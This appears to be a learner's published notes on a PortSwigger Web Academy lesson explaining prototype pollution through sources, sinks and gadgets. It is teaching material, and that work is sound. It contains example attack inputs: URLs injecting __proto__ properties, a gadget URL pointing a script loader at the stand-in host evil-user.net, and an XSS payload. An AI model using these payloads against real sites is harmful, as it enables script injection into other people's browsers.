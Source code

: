 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/introduction/3-key-components-for-exploitation/"}
---
```



---

## 1. A Source

This is any input that enables you to poison prototype objects with arbitrary properties.

-  The URL via either the query or fragment string (hash)
-  JSON based input
-  Web messages

### URL

Consider the following URL, which contains an attacker-constructed query string:

`https://vulnerable-website.com/?__proto__[evilProperty]=payload`

```javascript
/// Javascript will see this statement:

targetObject.__proto__.evilProperty = 'payload';

```

What we think will happen:

```javascript
{
	existingProperty1: 'foo',
	existingProperty2: 'bar',
	__proto__: {
		evilProperty: 'payload'
	}
}
```

What actually happens:

Instead of setting `evilProperty` inside `targetObject`, JavaScript modifies `Object.prototype`, making `evilProperty` available to all objects due to prototype inheritance.

```javascript

console.log({}.evilProperty); // 'payload'
console.log({ anotherObject: 123 }.evilProperty); //'payload'

```

### JSON Input

When an application receives user input in JSON format. It usually converts JSON into an object using `JSON.parse()`

```javascript
const jsonInput = '{"key": "value"}';
const parsedObject = JSON.parse(jsonInput);

console.log(parsedObject); // {key: 'value'}
```

The issue arises when a user injects a key named `__proto__` in the JSON input

```javascript
const jsonInput = '{"__proto__": {"evilProperty": "payload"}}';
const ParsedObject = JSON.parse(jsonInput);

console.log(parsedObject); // {__proto__: { evilProperty: 'payload' } }

```

Merging the above with another object without sanitizing keys will lead to Prototype Pollution. 

Though the above example shows the parsing of JSON into an object, it is different when **defining** the object as an **object literal** as it does not cause the vulnerability

```javascript
// Defining as JSON causes vuln
const jsonInput = '{"__proto__": {"evilProperty": "payload"}}';

// Defining Object Literal does not cause vuln
const objLiteral = {__proto__: { evilProperty: "payload" } };

```

---

## 2. A Sink

A prototype pollution sink is essentially just a JavaScript **function** or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. 

Prototype pollution lets an attacker **inject** properties into the global prototype (`Object.prototype`). If the application later **uses** these polluted properties in a **dangerous function**, that function becomes the **sink**.

```javascript
const userSettings = getUserSettings(); // Assume this is merged with polluted prototype
document.body.innerHTML = `<h1>${userSettings.theme}</h1>`;
```

If an attacker pollutes the prototype:

```javascript
Object.prototype.theme = '<script>alert(1)</script>';
```

Then `userSettings.theme` will unexpectedly contain the attacker's payload, leading to **DOM XSS**.

---

## 3. A gadget

A **gadget** in the context of prototype pollution is a piece of vulnerable code that **unintentionally** uses polluted properties in a dangerous way. This allows an attacker to **hijack the program's behavior**.

Let’s say a JavaScript library on a website has this configuration code:

```javascript
let transport_url = config.transport_url || defaults.transport_url;
```

If `config.transport_url` is undefined, it inherits polluted properties from `Object.prototype`

Later in the code, this value is used to load an external script:
```javascript
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

If no `transport_url` is set in config then `config.transport_url`  inherits from the prototype. The attacker then pollutes the prototype using URL parameter like:

`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

resulting in:

```javascript
Object.prototype.transport_url = "//evil-user.net"
```

Now, every object will inherit this polluted value